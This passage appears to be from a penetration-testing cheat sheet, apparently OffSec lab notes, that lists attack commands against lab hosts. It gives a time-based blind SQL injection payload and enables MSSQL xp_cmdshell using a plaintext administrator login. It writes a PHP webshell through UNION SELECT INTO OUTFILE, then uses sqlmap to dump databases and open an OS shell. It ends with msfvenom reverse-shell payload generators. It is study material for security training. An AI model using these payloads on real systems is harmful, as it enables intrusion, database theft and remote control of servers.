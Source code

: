 - Blind SQL Injection - This can be identified by Time-based SQLI

```powershell
#Application takes some time to reload, here it is 3 seconds
http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //
```

- Manual Code Execution

```bash
kali> impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth #To login
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
#Now we can run commands
EXECUTE xp_cmdshell 'whoami';

#Sometimes we may not have direct access to convert it to RCE from web, then follow below steps
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- // #Writing into a new file
#Now we can exploit it
http://192.168.45.285/tmp/webshell.php?cmd=id #Command execution
```

- SQLMap - Automated Code execution

```bash
sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user #Testing on parameter names "user", we'll get confirmation
sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user --dump #Dumping database

#OS Shell
#  Obtain the Post request from Burp suite and save it to post.txt
sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp" #/var/www/html/tmp is the writable folder on target, hence we're writing there

```


# Exploitation

## Reverse Shells

### Msfvenom

```bash
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe

msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```
